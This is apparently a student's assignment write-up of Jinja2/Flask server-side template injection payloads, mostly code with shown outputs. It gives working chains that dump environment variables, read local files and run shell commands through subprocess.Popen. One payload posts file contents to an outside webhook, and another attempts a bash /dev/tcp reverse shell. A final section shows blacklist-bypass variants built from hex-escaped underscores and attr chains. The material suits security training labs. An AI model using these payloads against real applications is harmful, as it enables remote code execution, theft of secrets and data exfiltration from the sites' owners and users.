








Task:

Give unique ssti payloads for the given cases while following these conditions:
payloads must be as unique as possible ie if one starts with class.base.subclasses none others should start with it
OR you can use some other variant of the same payload like attr getattr instead of dot notation but again with these there should be at max two payloads looking similar

include the outputs of each part of payload eg for class.base.subclasses do class, then class.base and so on.
screenshots once in 5 paras but don't clutter them all around

Without blacklist:

1) return the index of urllib in subclasses()
```
{{__self__.__init__}}

<bound method Undefined.__init__ of Undefined>

{{__self__.__init__.__class__}} or {{().__class__}}
<class 'method'>

{{__self__.__init__.__class__.__base__}}
<class 'object'>

{{ __self__.__init__.__class__.__base__.__base__}}
None

{{__self__.__init__.__class__.__base__.__subclasses__}}
<built-in method __subclasses__ of type object at 0x00007FF8B2656750>

Final payload:
{{__self__.__init__.__class__.__base__.__subclasses__()}} 
```

Output:



11 instances of class urllib.
Index of <class 'urllib.request.Request'> : {{__self__.__init__.__class__.__base__.__subclasses__()[338]}} 

Could not figure out how to do this using the index() method.


2) get name of current python flask script

```
{{config.__class__.__init__.__globals__}}
```

```
{{config.__class__.__init__.__globals__.__builtins__}}
```

```
{config.__class__.__init__.__globals__.__builtins__.__import__}}
<built-in function __import__>

{{config.__class__.__init__.__globals__.__builtins__.__import__('__main__').__file__}}

```
Output:
c:\Users\risha\Rishabh extras\Programming\ssti.py


3) get all the current envvars
```
{{request.application.__globals__.__builtins__.__import__('os').environ}}
```




4) read a local file
{{get_flashed_messages.__globals__.__builtins__.open("test.py").read() }}

```
{{get_flashed_messages}}
<function get_flashed_messages at 0x000002C3647D1440>

{{get_flashed_messages.__globals__}}
```



5) run a command

```

{{ (""|attr("1")|attr("__class__"))}}
<class 'jinja2.runtime.Undefined'>


{{(""|attr("1")|attr("__class__")|attr("__base__")|attr("__subclasses__")())[258]}}
<class 'subprocess.Popen'>

{{((""|attr("1")|attr("__class__")|attr("base"))|attr("__subclasses__")()[258]('whoami', shell=True, stdout=-1)|attr("communicate"))}}

(b'test1\n', None)

```


6) send the contents of etc pass to  awebhook

{{request['__class__']['__init__']['__globals__']['__builtins__']['__import__']('requests')['post']['__call__']('https://a.requestcatcher.com',data={'file':request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/cracklib/cracklib.conf").read()})}}






7) rev shell

().__class__.__base__.__subclasses__()[258]('bash -c ‘exec bash -i &>/dev/tcp/<ngrok_IP>/<ngrok_port> <&1’', shell=True, stdout=-1).communicate()
Tried this ().__class__.__base__.__subclasses__()[259]('curl a.requestcatcher.com', shell=True, stdout=-1).communicate() and it works.
 Just have to figure out how to get it to connect to ngrok

Blacklist applied:

1){{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
{{request|attr(request.query_string[2:12].decode())|attr(request.query_string[15:23].decode())?c=__class__&d=__base__}}


Without ' or " constructing payloads is very difficult. It leaves very few options as far as I understand like the example one.
2){{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}

6){{request['x5f\x5fclass\x5f\x5f']['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fim'+'port\x5f\x5f']('requests')['post']['\x5f\x5fcall\x5f\x5f']('https://a.requestcatcher.com',data={'file':request.\x5f\x5fclass\x5f\x5f.\x5f\x5finit\x5f\x5f.\x5f\x5fglobals\x5f\x5f.\x5f\x5fbuiltins\x5f\x5f.open.\x5f\x5fcall\x5f\x5f("/etc/cracklib/cracklib.conf").read()})}}

